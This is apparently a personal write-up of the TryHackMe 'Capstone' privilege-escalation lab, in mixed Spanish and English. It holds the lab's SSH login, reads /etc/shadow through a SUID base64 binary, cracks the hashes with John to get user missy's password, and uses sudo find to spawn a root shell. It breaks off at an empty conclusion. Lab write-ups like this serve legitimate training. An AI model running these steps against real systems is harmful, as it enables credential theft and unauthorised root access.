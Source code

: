 # Capstone (Privesc)

Plataforma: TryHackMe
OS: Linux
Level: Easy
Status: Done
Complete: Yes
Created time: 4 de diciembre de 2024 21:34

## Notas

Maquina dedicada únicamente a la escalada de privilegios

You can access the target machine over your browser or use the SSH credentials below.

- Username: leonard
- Password: Penny123

## Explotación

```bash
sudo -l
Sorry, user leonard may not run sudo on ip-10-10-194-26

```

```bash
find / -perm -u=s -type f 2>/dev/null

Output:

/usr/bin/base64 <--
/usr/bin/ksu
/usr/bin/fusermount
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chage
/usr/bin/newgrp
/usr/bin/staprun
/usr/bin/chfn
/usr/bin/su
/usr/bin/chsh
/usr/bin/Xorg
/usr/bin/mount
/usr/bin/umount
/usr/bin/crontab
/usr/bin/pkexec
/usr/bin/at
/usr/bin/sudo
/usr/sbin/pam_timestamp_check

```

```bash
"SUID Base64"

LFILE="/etc/shadow"
base64 "$LFILE" | base64 --decode

cat /etc/paswd

Attacker Machine

unshadow passwd shadow > credentials.txt
john credentials.txt

Proceeding with wordlist:/usr/share/john/password.lst
Password1        (missy)

Username: missy
Password: Password1

```

```
su missy
missy$:

```

Una vez migrados a missy, seguimos buscando binarios

```bash
sudo -l
 (ALL) NOPASSWD: /usr/bin/find

"Sudo exploit (gtfobins)"

sudo find . -exec /bin/sh \\; -quit

Explotación posterior
```

## Conclusión